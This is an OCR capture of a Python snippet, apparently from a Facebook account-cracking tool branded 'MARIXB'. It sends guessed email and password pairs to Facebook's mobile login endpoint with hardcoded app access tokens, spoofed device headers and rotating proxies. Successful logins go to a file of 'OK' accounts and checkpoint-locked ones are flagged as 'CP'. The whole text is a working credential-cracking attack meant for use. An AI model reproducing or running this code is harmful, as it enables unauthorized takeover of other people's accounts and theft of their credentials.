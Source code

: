             apk = ['438142079694454|fc0a7caa49b192f64f6f5a6d9643bb28', '350685531728|62f8ce9f74b12f84c123cc23437a4a32', '6628568379|c1e620fa708a1d5696fb991c1bde5662', '1479723375646806|afb3e4a6d8b868314cc843c21eebc6ae', '1348564698517390|007c0a9101b9e1c8ffab727666805038']
            app = random.choice(apk)
            dataX = {
                'adid': adid,
                'format': 'json',
                'device_id': device_id,
                'email': uid,
                'password': pw,
                'generate_analytics_claims': '1',
                'community_id': '',
                'cpl': 'true',
                'try_num': '1',
                'family_device_id': family_device_id,
                'credentials_type': 'password',
                'source': 'login',
                'error_detail_type': 'button_with_disabled',
                'enroll_misauth': 'false',
                'generate_session_cookies': '1',
                'generate_machine_id': '1',
                'currently_logged_in_userid': '0',
                'locale': 'en_US"',
                'client_country_code': 'US',
                'fb_api_req_friendly_name': 'authenticate',
                'api_key': '882a8490361da98702bf97a021ddc14d',
                'access_token': app }
            headersX = {
                'User-Agent': useragent,
                'Accept-Encoding': 'gzip, deflate',
                'Connection': 'close',
                'Content-Type': 'application/x-www-form-urlencoded',
                'Host': 'graph.facebook.com',
                'X-FB-Net-HNI': sim,
                'X-FB-SIM-HNI': sim,
                'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                'X-FB-Connection-Type': 'Zong',
                'X-Tigon-Is-Retry': 'False',
                'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32',
                'x-fb-device-group': '5120',
                'X-FB-Friendly-Name': 'ViewerReactionsMutation',
                'X-FB-Request-Analytics-Tags': 'graphservice',
                'X-FB-HTTP-Engine': 'Liger',
                'X-FB-Client-IP': 'True',
                'X-FB-Server-Cluster': 'True',
                'x-fb-connection-token': '882a8490361da98702bf97a021ddc14d'}
            hed = {'x-fb-connection-bandwidth':str(random.randint(20000000.0, 30000000.0)), 'x-fb-net-hni':str(random.randint(20000, 40000)), 'x-fb-sim-hni':str(random.randint(20000, 40000)), 'x-fb-connection-quality':'EXCELLENT', 'x-fb-connection-type':'cell.CTRadioAccessTechnologyHSDPA', 'user-agent':useragent, 'content-type':'application/x-www-form-urlencoded', 'x-fb-http-engine':'Liger'}
            responce = requests.post('https://graph.facebook.com/auth/login',data=dataX,headers=headersX,allow_redirects=False,proxies=proxs).text
            responce_json = json.loads(responce)
            if 'session_key' in responce_json:
                #uid = responce_json['uid']
                if uid not in oks:
                    print(f'\r{green}[MARIXB-OK] {uid} | {pw} {white}')
                    open('/sdcard/MARIXB-OK.txt', 'a').write(uid+'|'+pw+'\n')
                    oks.append(uid)
            elif responce_json['error']['code'] == 405:
                #uid = responce_json['error']['uid']
                if uid not in cps:
                    print(f'\r{rad}[MARIXB-CP] {uid}     | {pw} {white}')